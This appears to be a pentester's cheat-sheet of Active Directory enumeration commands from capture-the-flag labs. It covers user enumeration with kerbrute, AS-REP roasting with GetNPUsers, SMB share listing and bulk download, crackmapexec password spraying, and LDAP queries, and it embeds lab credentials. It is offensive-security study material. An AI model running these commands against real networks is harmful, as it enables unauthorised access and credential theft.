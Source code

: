 
- [ ] Enum4linux

```
enum4linux -a 10.201.11.30
```




- [ ] Kerburate
```
kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 userlist.txt -t 100
```

It's time to get the valid usernames to that we can try other attacks

User & Password was given in the Challenge so will use it.
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt

or 

```
GetADUsers.py megacorp.local/ -dc-ip 10.10.10.179
```






- [ ] GetNPUsers
```
GetNPUsers.py MEGABANK/ -usersfile valid_user.txt -format john -dc-ip 10.10.10.172
```





- [ ] SMB Client

```
smbclient -L \\10.201.11.30
```

```
smbclient -L 10.201.11.30 -U 'anonymous'
```

```
smbclient \\\\10.10.10.182\\Data -U 'r.thompson' --password 'rY4n5eva'
```


## Download the contents of the this share

```
prompt off
```

```
recurse on
```

```
ls
```

```
mget *
```






- [ ] CrackMapexec

```
crackmapexec smb 10.201.11.30 -u '' -p '' --shares
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password>
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password_list> 
```

```
cme smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares
```




 
 - [ ] Ldap
 
```
ldapsearch -x -H ldap://10.10.10.182 -b "dc=cascade,dc=local" "(sAMAccountName=r.thompson)"

ldapsearch -x -H 10.10.10.182 -s base  -b '' "(objectClass=*)" "*" +

ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local'


ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local' "(&(objectClass=user)(memberOf=CN=Domain Admins, CN=Users,DC=htb,DC=local))" | grep sAMAccountName 

ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'dc=support,dc=htb'
```

